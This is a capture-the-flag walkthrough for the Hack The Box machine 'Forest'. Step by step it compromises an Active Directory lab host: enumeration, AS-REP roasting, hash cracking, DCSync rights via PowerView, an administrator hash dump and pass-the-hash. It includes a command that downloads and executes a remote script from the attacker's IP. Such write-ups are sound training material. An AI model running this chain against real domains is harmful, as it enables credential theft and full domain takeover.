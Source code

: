 # Forest (Windows)

## Enumeration

### Nmap
I began my enumeration with an aggressive nmap scan because some boxes take some time to scan.
```
nmap -p- -Pn -T4 10.10.10.161 --min-rate=5000

-p- to scan all ports
-Pn for a no ping scan (scans open ports only)
-T4 for an aggressive (3 is default) timing; can give unreliable results, but is faster than the default
--min-rate=5000 for a min rate of 5000 packets per second; can also give unreliable results if it's too fast
```
![nmap1](Images/nmap1.png)

Then, I do a default NSE script scan with version detection on the ports.
```
nmap -sC -sV -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001 -Pn -T4 10.10.10.161 --min-rate=5000
-sC for default NSE script
-sV for version detection
```
![nmap2](Images/nmap2.png)

### Enum4linux
I then use enum4linux to get a Windows enumeration on my Linux machine.
```
enum4linux 10.10.10.161
```
![enum4linux](Images/enum4linux.png)
I get a bunch of users on the machine.

### Ldapsearch
Then I use ldapsearch to search the LDAP directory server to get the domain name.
```
ldapsearch -H ldap://10.10.10.161 -x -s base namingcontexts

-H for the target host / LDAP server
-x for simple authentication (instead of SASL)
-s for scope (here, it is `base`)
namingcontexts to request for namingContexts
```
![ldapsearch](Images/ldapsearch.png)

I find the domain name htb.local (DC=htb,DC=local)

### AS-REP Roast
I start by using impacket's GetNPUsers to check for all domain users
```
impacket-GetNPUsers -dc-ip 10.10.10.161 -request 'htb.local/'

-dc-ip for the domain controller ip
-request to request TGT for users
'htb.local/' to request from the htb.local domain
```
![getnpusers](Images/getnpusers.png)

^ I then saved the above results to a file named svc-afresco.hash.

## Initial Foothold
### Hashcat
```
┌──(kali㉿kali)-[~/Desktop/htb/machines/forest]
└─$ hashcat -h | grep -i "kerberos"                                                              
  19600 | Kerberos 5, etype 17, TGS-REP                              | Network Protocol
  19800 | Kerberos 5, etype 17, Pre-Auth                             | Network Protocol
  28800 | Kerberos 5, etype 17, DB                                   | Network Protocol
  19700 | Kerberos 5, etype 18, TGS-REP                              | Network Protocol
  19900 | Kerberos 5, etype 18, Pre-Auth                             | Network Protocol
  28900 | Kerberos 5, etype 18, DB                                   | Network Protocol
   7500 | Kerberos 5, etype 23, AS-REQ Pre-Auth                      | Network Protocol
  13100 | Kerberos 5, etype 23, TGS-REP                              | Network Protocol
  18200 | Kerberos 5, etype 23, AS-REP                               | Network Protocol

-h for help (lists all the modes

grep for searching for a specific word
-i to ignore case and search for the word "kerberos"
```
AS-REP is 18200, so I then use hashcat to crack the password for svc-alfresco.
```
hashcat -m 18200 svc-alfresco.hash /usr/share/wordlists/rockyou.txt

-m for mode 18200 (AS-REP)
svc-alfresco.hash to use the hash file that I saved earlier
rockyou.txt as a default wordlist to use for hashcat
```
![hashcat](Images/hashcat.png)
I get the password s3rvice for the user svc-alfresco.

### Evil-WinRM
During the nmap scan, I see that port 5985 (wsman) and 47001 (winrm) are open.
I use evil-winrm to log into the machine as user svc-alfresco with the password s3rvice.
```
┌──(kali㉿kali)-[~/Desktop/htb/machines/forest]
└─$ evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice

-i ip
-u user
-p password
```
Now that I"m in the machine, I can just use `cat` to read the contents of the user.txt file.
```
*Evil-WinRM* PS C:\Users\svc-alfresco\desktop cat user.txt
820aabe21740a9c9aac625ca2822e534
```

## Privilege Escalation
*Skipped uploading Bloodhound here*  
![paths](Images/paths.png)
Bloodhound shows that here's 2 jumps needed to get from svc.alfresco to Administrator.  
Svc.alfresco is a member of Service Accounts, which is a member of Privileged IT Accounts, which is a member of Account Operators.  
AKA svc.alfresco is a member of Account Operators.  
The Account Operators has a Generic All permissions on the Exchange Windows Permissions group. Right-clicking that and selecting `help` shows Abuse Info.

![abuseinfo](Images/abuseinfo.png)  
The Abuse Info shows me exactly what command(s) to use.

Add svc-alfresco to the Exchange Windows Permissions group.
```
*Evil-WinRM* PS C:\users\svc-alfresco\desktop> net group "Exchange Windows Permissions" svc-alfresco /add /domain
```

Import PowerView and obtain DCSync permission on svc-alfresco.
```
*Evil-WinRM* PS C:\Users\svc-alfresco\desktop> (New-Object System.Net.WebClient).DownloadString('http://10.10.14.89/PowerView.ps1') | IEX
*Evil-WinRM* PS C:\Users\svc-alfresco\desktop> $SecPass = ConvertTo-SecureString 's3rvice' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\svc-alfresco\desktop> $Cred = New-Object System.Management.Automation.PSCredential('htb.local\svc-alfresco', $SecPass)
*Evil-WinRM* PS C:\Users\svc-alfresco\desktop> Add-ObjectACL -PrincipalIdentity marvel -Credential $Cred -Rights DCSync
```

### Secretsdump
I then use secretsdump to dump the administrator hash.
```
secretsdump.py svc-alfresco:s3rvice@10.10.10.161
```
![secretsdump](Images/secretsdump.png)

### Impacket-psexec
I use impacket's psexec to log into the machine as the administrator, using the hash found in the previous step.
```
┌──(kali㉿kali)-[~/Desktop/htb/machines/forest]
└─$ impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.10.10.161

-hashes for using a hash on the administrator user instead of a password
```

Finally, I `dir` to list the files in the directory and `type` to read the root.txt file.
```
C:\users\administrator\desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 61F2-A88F

 Directory of C:\users\administrator\desktop

09/23/2019  01:15 PM    <DIR>          .
09/23/2019  01:15 PM    <DIR>          ..
12/01/2023  02:01 PM                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)  10,436,100,096 bytes free

C:\users\administrator\desktop>type root.txt
9a782c7840130cbb08a78b9cdb607171
```
